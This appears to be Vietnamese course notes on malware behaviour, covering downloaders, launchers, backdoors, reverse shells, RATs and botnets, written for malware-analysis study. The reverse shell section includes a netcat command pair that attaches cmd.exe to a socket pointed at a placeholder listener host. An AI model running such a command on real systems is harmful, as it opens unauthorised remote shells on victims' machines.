

repository: vuongdat67/silver-happiness · page: posts/course/se6/nt137/Book/C11/index.html · generator: mkdocs

# Chương 11: Hành Vi Phần Mềm Độc Hại (Malware Behavior)

---

## 1. Downloaders và Launchers

**Downloader** là loại malware chỉ làm một việc: tải malware khác từ Internet về và thực thi trên hệ thống nạn nhân. Thường được đóng gói cùng exploit để xâm nhập ban đầu, sau đó gọi `WinExec` để chạy payload tải về.

**Launcher (Loader)** là executable cài đặt malware để chạy ngay hoặc ẩn sau đó. Launcher thường chứa sẵn malware bên trong nó.

---

## 2. Backdoors

Backdoor cung cấp **quyền truy cập từ xa** vào máy nạn nhân. Đây là loại malware **phổ biến nhất**, không cần tải thêm code vì đã có đầy đủ chức năng.

**Giao tiếp:** Thường dùng **port 80 / HTTP** để hòa lẫn với traffic thông thường.

**Chức năng thường thấy:** thao tác registry, liệt kê cửa sổ, tạo thư mục, tìm kiếm file,...

---

### 2.1 Reverse Shell

Kết nối **khởi tạo từ máy nạn nhân** ra ngoài → attacker nhận được shell.

#### Netcat Reverse Shell

```bash
# Máy attacker lắng nghe
nc -l -p 80

# Máy nạn nhân kết nối ra và gắn cmd.exe vào socket
nc listener_ip 80 -e cmd.exe
```

#### Windows Reverse Shell — Basic Method

- Tạo socket → kết nối tới remote server
- Gắn socket vào **stdin / stdout / stderr** của `cmd.exe`
- Gọi `CreateProcess` với `STARTUPINFO` để ẩn cửa sổ

#### Windows Reverse Shell — Multithreaded Method

```
Socket + 2 Pipe + 2 Thread
├── Thread 1: đọc stdin pipe → ghi vào socket
└── Thread 2: đọc socket → ghi vào stdout pipe
```

Dùng khi cần **encode/decode data** trước khi truyền. Tìm dấu hiệu: `CreateThread`, `CreatePipe`, `CreateProcess`.

---

### 2.2 RAT (Remote Administration Tool)

```mermaid
graph LR
    A[Attacker - Client C&C] -->|điều khiển| B[RAT Server trên máy nạn nhân]
    B -->|beacon kết nối về| A
```

- Server (malware) **chủ động beacon** về client (attacker)
- Giao tiếp qua port **80 / 443**
- Dùng trong **tấn công có chủ đích** (targeted attack): đánh cắp thông tin, lateral movement

> **Ví dụ thực tế:** Poison Ivy — RAT miễn phí, mở rộng qua shellcode plug-in.

---

### 2.3 Botnet

Mạng lưới các **zombie** (máy bị chiếm) được điều khiển tập trung qua **botnet controller**.

| Tiêu chí | RAT | Botnet |
|---|---|---|
| Số lượng nạn nhân | Ít, có chọn lọc | Hàng triệu |
| Kiểu điều khiển | Từng nạn nhân riêng lẻ | Tất cả cùng lúc |
| Mục tiêu | Tấn công có chủ đích | Tấn công đại trà |
| Mục đích | Đánh cắp thông tin | Spam, DDoS, phát tán malware |

---
